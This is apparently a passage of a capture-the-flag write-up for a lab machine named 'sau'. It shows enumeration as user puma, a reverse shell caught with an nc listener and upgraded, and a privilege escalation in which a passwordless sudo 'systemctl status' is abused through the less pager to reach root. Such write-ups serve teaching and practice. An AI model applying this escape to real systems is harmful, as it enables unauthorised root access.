

```
$ whoami
whoami
puma
$ id
id
uid=1001(puma) gid=1001(puma) groups=1001(puma)
$ sudo -l
sudo -l
Matching Defaults entries for puma on sau:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User puma may run the following commands on sau:
    (ALL : ALL) NOPASSWD: /usr/bin/systemctl status trail.service

puma@sau:~$ ls -l /etc/systemd/system/trail.service 
-rwxr-xr-x 1 root root 461 Apr 15  2023 /etc/systemd/system/trail.service

```

Upgrading shell
```
┌──(kali㉿kali)-[~]
└─$ stty size;stty raw -echo;fg
39 77
[1]  + continued  nc -lvnp 1337
                               export TERM=xterm-256color
puma@sau:~$ 
```

## Linpeas
Linpeas was uploaded and ran, but the most efficient way to get root was through the `systemctl` command that `puma` can run as root.

# systemctl exploitation

https://gtfobins.github.io/gtfobins/systemctl/
The output from `sudo /usr/bin/systemctl status trail.service` dumps to `less` for viewing. The attacker can run a command from `less` and gain a root shell.



```
root@sau:/dev/shm# id
uid=0(root) gid=0(root) groups=0(root)
root@sau:/dev/shm# 

```